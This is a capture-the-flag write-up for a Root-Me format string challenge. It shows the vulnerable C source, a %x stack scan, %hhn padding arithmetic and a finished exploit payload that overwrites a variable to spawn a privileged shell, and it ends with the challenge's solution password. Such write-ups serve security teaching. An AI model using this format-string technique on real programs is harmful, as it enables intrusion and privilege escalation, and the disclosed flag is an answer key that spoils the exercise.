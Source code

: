 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br>
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch14\@challenge02.root-me.org
- Password:&emsp;app-systeme-ch14

![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
References:

[%n format specifier](https://www.geekforgeeks.org/g-fact-31/)<br>
[Memset in C](https://en.cppreference.com/w/cpp/string/byte/memset)<br>
[All printf in C](https://en.cppreference.com/w/c/io/fprintf)<br>



Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to discover the posibility of overwritting and "scanning" the stack<br>
`./ch14 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`<br>
Output:

![image](https://user-images.githubusercontent.com/48288606/146907436-2d2cfdb9-ab69-411b-a6e7-2366ba28adb9.png)

- As shown, the "AAAA" value is written in 9th of format string, we can prepare our value to this location.
- There are 2 ways to get **"deadbeef"** value. We can split it into 4 bytes or 2 bytes, the more division, the more relief execution time is. So i take second method.
- Split `0xdeadbeef` into 4 bytes and we will overwrite  with "little-endian" order. `0xef`, `0xbe`, `0xad`, `0xde` and convert to decimal for calculating for later as below:
```
>>> int(0xef)
239
>>> int(0x1be)
446
>>> int(0x2ad)
685
>>> int(0x3de)
990
```
- We have to make these value increase continously in our stack so we ensure that **0xef < 0x1be < 0x2ad < 0x3de** and then we use **%hhn** to get 1 byte value to have our desired values. (We can use **%hn** if we use the first method - split into 2 parts of 2 bytes). Then we calculate the value to add between these bytes to get specific value. 
 - We already have 16 bytes address, to get the right value of first byte. We pad more **239 - 16 = 223**
 - We already have 239 bytes above, to get the right value of first byte. We pad more **446 - 239 = 207**
 - We already have 446 bytes above, to get the right value of first byte. We pad more **685 - 446 = 239**
 - We already have 685 bytes above, to get the right value of first byte. We pad more **990 - 685 = 305**

Here's the layout of what we've done until now: 

![image](https://user-images.githubusercontent.com/48288606/146911826-3d6f1aa6-cec3-4516-83da-dbaae0f18105.png)

Payload: `./ch14 $(python -c "print('\x98\xfa\xff\xbf' + '\x99\xfa\xff\xbf' + '\x9a\xfa\xff\xbf' + '\x9b\xfa\xff\xbf' + '%223d%9\$hhn' + '%207d%10\$hhn' + '%239d%11\$hhn' + '%305d%12\$hhn')")`

Pass: 1l1k3p0Rn&P0pC0rn


